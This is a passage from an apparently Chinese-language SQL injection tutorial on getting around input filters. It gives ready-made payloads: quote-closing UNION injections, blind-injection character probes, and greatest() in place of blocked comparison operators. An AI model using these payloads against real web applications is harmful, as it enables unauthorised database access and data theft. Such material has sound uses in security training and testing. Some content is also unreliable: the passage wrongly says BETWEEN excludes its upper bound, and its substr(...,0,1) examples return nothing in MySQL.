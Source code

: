 ```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

### 使用**offset关键字**绕过

对于limit可以使用offset来绕过：

```sql
select * from news limit 0,1
等价于
select * from news limit 1 offset 0
```

## 过滤注释符（ `#` 和 `--` ）

### 手动闭合引号，不使用注释符

```sql
id=1' union select 1,2,3||'1
```

或者：

```sql
id=1' union select 1,2,'3
```

## 过滤比较符号 （ `<` 和 `>` ）

### 使用**`greatest()`、`least（）`函数**绕过

greatest()、least（）：（前者返回最大值，后者返回最小值）

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了

最常见的一个盲注的sql语句：

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
```

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值

那么上面的这条sql语句可以使用greatest变为如下的子句:

```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

### 使用**`between` `and`**绕过

between a and b：返回a，b之间的数据，不包含b。

## 过滤等号（ `=` ）
